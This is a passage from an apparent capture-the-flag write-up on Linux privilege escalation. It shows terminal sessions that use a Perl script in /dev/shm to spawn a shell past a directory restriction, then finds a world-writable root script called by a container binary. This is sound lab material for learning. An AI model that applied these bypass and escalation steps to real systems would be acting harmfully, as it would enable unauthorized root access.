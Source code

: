 As we can see here that we can't write in a lot of directories, even our own home directory.

We notice that `/dev/shm` and `/var/tmp/` don't have the wildcard `*`.

Let's see if we can write to them

```terminal
think@publisher:/dev/shm$ touch file
think@publisher:/dev/shm$ ls
file
```

Great! We can, let's do the bypass trick now.

```terminal
think@publisher:/dev/shm$ echo '#!/usr/bin/perl
> use POSIX qw(strftime);
> use POSIX qw(setuid);
> POSIX::setuid(0);
> exec "/bin/sh"' > /dev/shm/test.pl
think@publisher:/dev/shm$ ls -l
total 4
-rw-rw-r-- 1 think think  0 Sep 30 18:14 file
-rw-rw-r-- 1 think think 95 Sep 30 18:15 test.pl
think@publisher:/dev/shm$ chmod +x test.pl 
think@publisher:/dev/shm$ ./test.pl 
$ id
uid=1000(think) gid=1000(think) groups=1000(think)
```

Now let's check the `/usr/sbin/run_container` binary.

```terminal
$ /usr/sbin/run_container
List of Docker containers:
ID: 41c976e507f8 | Name: jovial_hertz | Status: Up 46 minutes

Enter the ID of the container or leave blank to create a new one: asdfsdf
/opt/run_container.sh: line 16: validate_container_id: command not found

OPTIONS:
1) Start Container
2) Stop Container
3) Restart Container
4) Create Container
5) Quit
```

When running the binary, we got prompt to enter an id of a container. I entered a random string and after that we can see that it's running `/opt/run_container.sh` file.

```terminal
$ ls -l /opt/run_container.sh
-rwxrwxrwx 1 root root 1715 Jan 10  2024 /opt/run_container.sh
```

Checking the file permission we see that we have write permissions over it.
